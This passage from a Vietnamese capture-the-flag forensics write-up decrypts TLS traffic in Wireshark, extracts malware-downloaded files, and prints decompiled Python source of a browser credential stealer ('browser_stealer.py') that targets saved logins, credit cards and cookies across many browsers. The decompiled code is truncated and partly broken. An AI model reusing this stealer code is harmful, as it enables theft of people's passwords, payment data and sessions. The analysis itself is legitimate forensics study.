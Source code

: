 Vậy là có key rồi, giờ ta chỉ cần quay trờ lại wireshark. Vào `Edit/Preferences/Protocols/TLS/RSA key lists` sau đó thêm key 

```
ip: 10.10.70.114
port: 443
protocol: tls
keyfile: <Đường dẫn đến key.pem vừa tạo>
password: Để trống
```

Sau khi apply và vào phần `Export Objects/HTML` sẽ thấy 3 file (`encrypted.bin`, `2.txt`, `sctask.exe`) mà dll độc hại đã tải về, xuất chúng ra để kiểm tra

Trong `2.txt` có flag phần 2

`_Mastering_forensics_`

Giờ ta sẽ tiếp tục phân tích 2 file còn lại, `encrypted.bin` thì như tên có lẽ đã bị mã hoá bởi `sctask.exe`, kiểm tra trong DiE thì biết rằng `sctask.exe` được viết bằng python nên ta sẽ sử dụng `pyinstxtractor.py` để chuyển về file .pyc sau đó dùng `pylingual` để decompile về code python lúc đầu

Đây là code đã decompile của `browser_stealer.py`

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: browser_stealer.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import base64
import json
import os
import shutil
import sqlite3
from datetime import datetime, timedelta
from Crypto.Cipher import AES
from win32crypt import CryptUnprotectData
appdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
browsers = {'avast': appdata + '\\AVAST Software\\Browser\\User Data', 'amigo': appdata + '\\Amigo\\User Data', 'torch': appdata + '\\Torch\\User Data', 'kometa': appdata + '\\Kometa\\User Data', 'orbitum': appdata + '\\Orbitum\\User Data', 'cent-browser': appdata + '\\CentBrowser\\User Data', '7star': appdata + '\\7Star\\7Star\\User Data', 'sputnik': appdata + '\\Sputnik\\Sputnik\\User Data', 'vivaldi': appdata + '\\Vivaldi\\User Data', 'chromium': appdata + '\\Chromium\\User Data', 'chrome-canary': appdata + '\\Google\\Chrome SxS\\User Data', 'chrome': appdata + '\\Google\\Chrome\\User Data', 'epic-privacy-browser': appdata + '\\Epic Privacy Browser\\User Data', 'msedge-dev': appdata + '\\Microsoft\\Edge Dev\\User Data', '\\uCozMedia\\Uran\\User Data': appdata + '\\Yandex\\YandexBrowser\\User Data', '\\BraveSoftware\\Brave-Browser\\User Data': appdata + '\\Iridium\\User Data', '\\CocCoc\\Browser\\User Data': roaming + '\\Opera Software\\Opera Stable', '\\Opera Software\\Opera GX Stable': roaming + '\\Opera Software\\Opera GX Stable'}
data_queries = {'login_data': {'query': 'SELECT action_url, username_value, password_value FROM logins', 'file': '\\Login Data', 'columns': ['URL', 'Email', 'Password'], 'decrypt': True}, 'credit_cards': {'query': 'SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted, date_modified FROM credit_cards', 'file': '\\Web Data', 'columns': ['Name On Card', 'Card Number', 'Expires On', 'Added On'], 'decrypt': True}, 'cookies': {'query': 'SELECT host_key, name, path, encrypted_value, expires_utc FROM cookies', 'file': '\\Network\\Cookies', 'columns': ['Host Key', 'Cookie Name', 'Path', 'Cookie', 'Expires On'], 'decrypt': True}, 'history': {'query': 'SELECT url, title, last_visit_time FROM urls', 'file': '\\History', 'columns': ['URL', 'Title', 'Visited Time'], 'decrypt': False}, 'downloads': {'query': 'SELECT tab_url, target_path FROM downloads'

def get_master_key(path: str):
    if not os.path.exists(path):
        pass  # postinserted
    return None

def decrypt_password(buff: bytes, key: bytes) -> str:
```